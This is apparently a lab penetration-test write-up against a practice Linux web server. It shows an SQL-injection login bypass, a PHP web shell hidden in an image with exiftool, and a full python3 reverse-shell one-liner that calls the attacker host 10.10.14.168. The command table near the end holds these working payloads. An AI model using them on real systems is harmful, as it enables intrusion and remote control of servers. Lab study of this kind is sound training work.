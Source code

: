 # LINUX WEB SERVER 10.10.10.185 VULNERABILITY and EXPLOITATION #

# Introduction

Penetration testing session was conducted in order to determine Linux Web Server 10.10.10.185 exposure to a targeted attack. All activities were conducted in a manner that simulated a malicious actor engaged in a targeted attack against Linux Web Server and both Victim (Linux Web Server) and Attacker (Kali) were hosted on Virtual Box.

# Methodology

##


## Reconnaissance

Conduct Nmap scan in order to find out which ports are open.

![](images/1Scan.PNG)

![](images/2scan.PNG)

Two ports identified after the Nmap scan,

- **22/tcp – Open SSH**

- **80/tcp – Open HTTP**

**Command used in Nmap Scan** - nmap -sC -sV -V 10.10.10.185

# Exploitation

After the Nmap Scan tried to find a vulnerability inside the server. Using open port tcp/80 (Open HTTP) try to brows the **10.10.10.185** server.

![](images/3image page.PNG)

_Fig: 3 | Home page of the server._

There is a login. Tried to bypass the login and can successfully bypass the login using SQL Injection to the password filed. In this password field vulnerable to SQL Injection.

![](images/4password bypass.PNG)

_Fig: 4 | SQL Injection to Password Field._

It&#39;s directed to the image uploading page. In this they allowed only jpg, jpeg, png image file formats.

![](images/ 5image upload.PNG)

_Fig: 5 | image uploading field._

![](images/ 6image format.PNG)

_Fig: 6 | Allowed image formats._

Then using this upload an image step try do an exploit so that inserting a payload to the image. Using exiftool.

![](images/7image folder create.PNG)

_Fig: 7 | Payload with image._

Then this need to run using PHP so that change the file format as _ **php.jpg** __._ This only check the last format because of the weakness of the verification so easily can upload the image.

![](images/8.PNG)

_Fig: 8 | Change the image format._

The check the location of the image which posted already in the server. Copy the location and rename the image name as _ **kalpani.php.jpg** __._ Then input the **cmd=ls** command to check whether is it working or not.

![](images/9.PNG)

_Fig: 9 | rename the file name in the location and command input._

It works. So now can execute the command in here and also can view the files in web directory.

![](images/10.PNG)

_Fig: 10 | view web directory files._

After that take the revers shell python script from pentestmonkey cheat sheet and change the python version to python3 and include the python script to location and run. After this can take the web shell.

![](images/11.PNG)

_Fig: 11 | Include the python script._

# Proof

**Exploitation**

![](images/12.PNG)

_Fig: 12 | Web Shell._

#


#

# Command used

| Nmap Scan | nmap -sC -sV 10.10.10.185 |
| --- | --- |
| login bypass | username = anypassword = 1&#39; or &#39;1&#39;=&#39;1 |
| bypass file upload filter URL | https://github.com/xapax/security/blob/master/bypass\_image\_upload.md |
| Image bypass command | exiftool -Comment=&#39;\&lt;?php echo &quot;\&lt;pre\&gt;&quot;; system($\_GET[&#39;cmd&#39;]); ?\&gt;&#39; kalpani.jpg |
| image file format rename | kalpani.php.jpg |
| image location, change file name and give cmd-ls to vies directory | http://10.10.10.185/images/uploads/kalpani.php.jpg?cmd=ls |
| reverse shell script to image location | http://10.10.10.185/images/uploads/test.php.jpg?cmd=python3 -c &#39;import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((&quot;10.10.14.168&quot;,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([&quot;/bin/sh&quot;,&quot;-i&quot;]);&#39; |
| listling check | nc -nlvp 1234 |
| directory list | ls |

# Conclusion

Even though the above evidence demonstrates that Linux web server is vulnerable. Using SQL Injection can bypass the server password fields in login page. Used pentestmonkey cheat sheet to take reverse shell python script, exiftool used to include payload in to the selected image.



